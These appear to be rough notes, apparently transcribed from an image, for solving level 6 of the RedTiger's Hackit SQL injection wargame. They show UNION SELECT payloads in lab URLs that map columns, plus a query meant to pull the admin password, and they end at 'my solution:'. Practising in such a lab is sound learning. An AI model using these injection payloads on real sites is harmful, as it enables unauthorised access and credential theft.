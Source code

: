 ```sql
SELECT id,,,, 
FROM level6_users 
WHERE id = 0 OR id = admin;




columns I know we have:

1. id (what we give at "user"): 1,2,3,4,5
2. username
3. password
4. 
5. status

password
username:admin,...

status


id is the first column!! proof: (first shows deddlef, second shows nothing cause the id was changed and is not identical now)

https://redtiger.labs.overthewire.org/level6.php?user=1%20UNION%20SELECT%201,2,3,4,5%20FROM%20level6_users%20ORDER%20BY%20id%20DESC

https://redtiger.labs.overthewire.org/level6.php?user=1%20UNION%20SELECT%201,2,3,4,5%20FROM%20level6_users%20ORDER%20BY%20id%20DESC


status is the last (5th) column!!

https://redtiger.labs.overthewire.org/level6.php?user=1%20UNION%20SELECT%209,9,9,9,-2%20FROM%20level6_users%20ORDER%20BY%20status%20asc


password is 3rd!


username is second



SELECT username,email FROM level6_users WHERE username='' UNION SELECT password,password,password,password,password FROM level6_users WHERE username='admin';

```

my solution:
